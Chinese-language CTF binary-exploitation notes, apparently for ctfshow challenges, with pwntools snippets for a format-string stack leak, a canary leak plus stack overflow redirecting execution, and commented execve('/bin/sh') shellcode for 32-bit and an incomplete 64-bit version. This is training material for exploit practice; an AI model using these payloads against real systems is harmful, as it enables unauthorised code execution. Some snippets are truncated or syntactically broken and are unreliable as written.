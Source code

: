 查询偏移量

```python
#ctfshow96
flag=''
for i in range(6,6+12):
    payload='%{}$p'.format(str(i))
    io.sendlineafter('$ ',payload)
    aim = unhex(io.recvuntil('\n',drop=True).replace('0x',''))
    flag += aim[::-1]
print flag
```

查找canary:

```python
elf = ELF('./pwn')
shell = elf.sym['__stack_check']
io.recv()
payload = "%15$x"
io.sendline(payload)
canary = int(io.recv(),16)
log.info("Canary : 0x%x" % canary)
payload = cyclic(0x28) + p32(canary) + 'A'*0xC + p32(shell)
io.sendline(payload)

```



#### shellcode：

##### 常见代码：

一段执行命令，一般由机械码构成，用于获取shell，和特殊东西。

```python
#汇编代码x86-架构
shellcode = asm(shellcraft.sh())
#32位
#:execve("/bin/sh", NULL, NULL)
shellcode=
""
push 0x68
push 0x732f2f2f   #这是字符串 "/bin/sh" 的前半部分字符的逆序表示，即 "sh//"。
push 0x6e69622f   #这是字符串 "/bin/sh" 的后半部分字符的逆序表示，即 "/bin"。
#这行代码将栈顶的地址（即字符串 "/bin/sh" 的起始地址）复制给寄存器 ebx 
mov ebx,esp
#这两行代码使用异或操作将 ecx 和 edx 寄存器的值设置为零。
xor ecx,ecx
xor edx,edx
#这两行代码将值 11 （ 0xb ）压入栈中，然后从栈中弹出到寄存器 eax
push 0xB 
pop eax
#这行代码触发中断 0x80 ，这是Linux系统中用于执行系统调用的中断指令。通过设置适当的寄存器值（ eax 、 ebx 、 ecx 、 edx ）， int 0x80 指令将执行 execve("/bin/sh", NULL, NULL) 系统调用，从而启动一个新的 shell 进程。
int 0x80
""

#64位

shellcode=
""
push rax
xor rdx, rdx
xor rsi, rsi
mov rbx,'/bin//sh'
push rbx
```